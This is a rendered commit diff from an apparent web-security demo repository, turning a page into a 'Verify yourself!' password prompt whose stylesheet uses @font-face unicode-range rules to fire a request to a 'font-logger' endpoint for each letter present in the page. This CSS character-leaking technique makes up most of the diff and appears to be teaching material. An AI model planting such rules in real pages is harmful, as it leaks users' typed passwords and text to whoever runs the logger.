

Before and after one commit to kenrick95/xssdemos, a website: page 03-css/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
big restructure in progress

```diff
--- a/03-ref/index.html
+++ b/03-css/index.html
@@ -4,16 +4,20 @@
     <meta charset="UTF-8" />
     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
     <meta http-equiv="X-UA-Compatible" content="ie=edge" />
-    <title>03 - ref</title>
+    <title>03 - css</title>
     <link href="./style.css" rel="stylesheet" type="text/css" />
   </head>
   <body>
     <header>
-      <h1 id="title">~Hold on~</h1>
+      <h1 id="title">Verify yourself!</h1>
     </header>
     <main id="main">
-       <a href="next.html" target="_blank">Next</a>
+        <label>
+          Please enter the password
+          <input id="password" type="text" />
+        </label>
     </main>
 
+    <script src="./main.js" type="module"></script>
   </body>
 </html>
--- a/05-css/style.css
+++ b/03-css/style.css
@@ -5,263 +5,263 @@
 /* https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html */
 @font-face {
   font-family: attack;
-  src: url('./data?seq=A');
+  src: url('./font-logger?seq=A');
   unicode-range: U+0041;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=B');
+  src: url('./font-logger?seq=B');
   unicode-range: U+0042;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=C');
+  src: url('./font-logger?seq=C');
   unicode-range: U+0043;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=D');
+  src: url('./font-logger?seq=D');
   unicode-range: U+0044;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=E');
+  src: url('./font-logger?seq=E');
   unicode-range: U+0045;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=F');
+  src: url('./font-logger?seq=F');
   unicode-range: U+0046;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=G');
+  src: url('./font-logger?seq=G');
   unicode-range: U+0047;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=H');
+  src: url('./font-logger?seq=H');
   unicode-range: U+0048;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=I');
+  src: url('./font-logger?seq=I');
   unicode-range: U+0049;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=J');
+  src: url('./font-logger?seq=J');
   unicode-range: U+004A;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=K');
+  src: url('./font-logger?seq=K');
   unicode-range: U+004B;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=L');
+  src: url('./font-logger?seq=L');
   unicode-range: U+004C;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=M');
+  src: url('./font-logger?seq=M');
   unicode-range: U+004D;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=N');
+  src: url('./font-logger?seq=N');
   unicode-range: U+004E;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=O');
+  src: url('./font-logger?seq=O');
   unicode-range: U+004F;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=P');
+  src: url('./font-logger?seq=P');
   unicode-range: U+0050;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=Q');
+  src: url('./font-logger?seq=Q');
   unicode-range: U+0051;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=R');
+  src: url('./font-logger?seq=R');
   unicode-range: U+0052;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=S');
+  src: url('./font-logger?seq=S');
   unicode-range: U+0053;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=T');
+  src: url('./font-logger?seq=T');
   unicode-range: U+0054;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=U');
+  src: url('./font-logger?seq=U');
   unicode-range: U+0055;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=V');
+  src: url('./font-logger?seq=V');
   unicode-range: U+0056;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=W');
+  src: url('./font-logger?seq=W');
   unicode-range: U+0057;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=X');
+  src: url('./font-logger?seq=X');
   unicode-range: U+0058;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=Y');
+  src: url('./font-logger?seq=Y');
   unicode-range: U+0059;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=Z');
+  src: url('./font-logger?seq=Z');
   unicode-range: U+005A;
 }
 
 @font-face {
   font-family: attack;
-  src: url('./data?seq=a');
+  src: url('./font-logger?seq=a');
   unicode-range: U+0061;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=b');
+  src: url('./font-logger?seq=b');
   unicode-range: U+0062;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=c');
+  src: url('./font-logger?seq=c');
   unicode-range: U+0063;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=d');
+  src: url('./font-logger?seq=d');
   unicode-range: U+0064;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=e');
+  src: url('./font-logger?seq=e');
   unicode-range: U+0065;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=f');
+  src: url('./font-logger?seq=f');
   unicode-range: U+0066;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=g');
+  src: url('./font-logger?seq=g');
   unicode-range: U+0067;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=h');
+  src: url('./font-logger?seq=h');
   unicode-range: U+0068;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=i');
+  src: url('./font-logger?seq=i');
   unicode-range: U+0069;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=j');
+  src: url('./font-logger?seq=j');
   unicode-range: U+006A;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=k');
+  src: url('./font-logger?seq=k');
   unicode-range: U+006B;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=l');
+  src: url('./font-logger?seq=l');
   unicode-range: U+006C;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=m');
+  src: url('./font-logger?seq=m');
   unicode-range: U+006D;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=n');
+  src: url('./font-logger?seq=n');
   unicode-range: U+006E;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=o');
+  src: url('./font-logger?seq=o');
   unicode-range: U+006F;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=p');
+  src: url('./font-logger?seq=p');
   unicode-range: U+0070;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=q');
+  src: url('./font-logger?seq=q');
   unicode-range: U+0071;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=r');
+  src: url('./font-logger?seq=r');
   unicode-range: U+0072;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=s');
+  src: url('./font-logger?seq=s');
   unicode-range: U+0073;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=t');
+  src: url('./font-logger?seq=t');
   unicode-range: U+0074;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=u');
+  src: url('./font-logger?seq=u');
   unicode-range: U+0075;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=v');
+  src: url('./font-logger?seq=v');
   unicode-range: U+0076;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=w');
+  src: url('./font-logger?seq=w');
   unicode-range: U+0077;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=x');
+  src: url('./font-logger?seq=x');
   unicode-range: U+0078;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=y');
+  src: url('./font-logger?seq=y');
   unicode-range: U+0079;
 }
 @font-face {
   font-family: attack;
-  src: url('./data?seq=z');
+  src: url('./font-logger?seq=z');
   unicode-range: U+007A;
 }
 
--- a/03-ref/index.js
+++ /dev/null
@@ -1 +0,0 @@
-//no-op
```
Also changed, not shown: 02-ref/index.html (renamed from 05-css/index.html, +3 -7 lines), 02-ref/next.html (renamed from 03-ref/next.html, +1 -1 lines), 05-css/index.js (deleted, +0 -7 lines), 05-css/server.js (deleted, +0 -13 lines), package.json (+2 -6 lines), server.js (added, +49 -0 lines), snippets.txt (added, +39 -0 lines), webpack.config.js (deleted, +0 -35 lines), 02-ref/style.css (renamed from 03-ref/style.css), README.md, 5 other files.
